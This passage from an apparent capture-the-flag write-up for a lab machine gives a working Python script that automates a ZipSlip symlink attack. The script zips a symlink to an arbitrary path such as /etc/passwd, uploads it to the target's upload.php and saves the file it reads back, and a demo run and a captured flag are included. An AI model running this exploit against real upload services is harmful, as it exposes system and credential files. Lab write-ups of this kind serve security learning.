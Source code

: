 And surely enough after upload, visiting the URL and base64 decoding the response, we get our user flag! <mark>7fc124f67ec9ba3c47da4afb6e7a77ee</mark>

## Inital Access & Exploitation+

To make the process a bit quicker I ended up writing a python script to automatically perform the ZipSlip attack:

```python
import os, requests, sys

try:
    print('Made by sealldeveloper')
    path_trav="../../../../../../../../../../../../../../../../../../.."
    path=path_trav+sys.argv[1]
except:
    print(f'ERROR: Please provide a file path! eg. python3 {sys.argv[0]} /etc/passwd')
    sys.exit()

print('Making symlink...')
os.system(f'ln -s {path} zipslip.pdf')
print('Making zip...')
os.system(f'zip -y zipslip.zip zipslip.pdf')
print('Removing symlink...')
os.system('rm zipslip.pdf')
print('Crafting payload for uploader...')

data = {
    "submit": ""
}
url='http://zipping.htb/upload.php'
files={'zipFile':('zipslip.zip', open('zipslip.zip','rb'),'application/zip')}
print('Sending payload!')
r = requests.post(url, files=files, data=data, verify=False)
try:
    uploadedurl=r.text.split('following path:</p><a href="')[1].split('">')[0]
    url='http://zipping.htb/'+uploadedurl
except:
    print('No upload url found!')

if 'uploads' in url:
    r=requests.get(url, verify=False)
    print('Writing to \'out.txt\'...')
    with open('out.txt','w') as f:
        f.write(r.text)
print('Cleaning up...')
os.system('rm zipslip.zip')
```

Now I can demo the exploit as so:

```
$ python3 zislip-exploiter.py
Made by sealldeveloper
Making symlink...
Making zip...
  adding: zipslip.pdf (stored 0%)
Removing symlink...
Crafting payload for uploader...
Sending payload!
Writing to 'out.txt'...
Cleaning up...
```

